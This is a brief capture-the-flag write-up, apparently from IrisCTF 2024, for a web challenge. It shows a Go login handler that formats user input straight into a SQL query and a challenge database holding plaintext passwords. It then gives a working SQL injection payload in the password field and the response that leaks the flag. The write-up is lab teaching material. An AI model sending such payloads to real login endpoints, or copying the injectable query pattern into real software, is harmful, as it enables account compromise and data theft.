

Looking at the website we are faced with a login page.



There is an SQL database in the local version:

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

So we can see the flag is stored on the user `skat`.

Looking at the Go source code, this is of interest:

```go
matched, err := regexp.MatchString(UsernameRegex, input.Username)
if err != nil {
	w.WriteHeader(http.StatusInternalServerError)
	return
}

if matched {
	w.WriteHeader(http.StatusBadRequest)
	w.Write([]byte("Username can only contain lowercase letters and numbers."))
	return
}

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```

There is filtering/checking on the username param, and none on the password field, so we can exploit that with SQLi!

I send the following JSON payload to the login endpoint: 
```json
{
	"username":"skat",
	"password":"\" OR (username = \"skat\" AND password LIKE \"%\") OR \""
}
```

`LIKE` is used to select if its similar to a string, for example if we wanted a string that starts with `test` and not care about the suffix, we can use `LIKE "test%"`. In this case using just `%` effectively acts as a wildcard.

Response: 
```json
{
	"username":"skat",
	"password":"irisctf{my_p422W0RD_1S_SQl1}"
}
```

And there's the flag! 

Flag: `irisctf{my_p422W0RD_1S_SQl1}`

**Files:** [whats-my-password.tar.gz](https://web.archive.org/web/20240107211430/https://cdn.2024.irisc.tf/whats-my-password.tar.gz)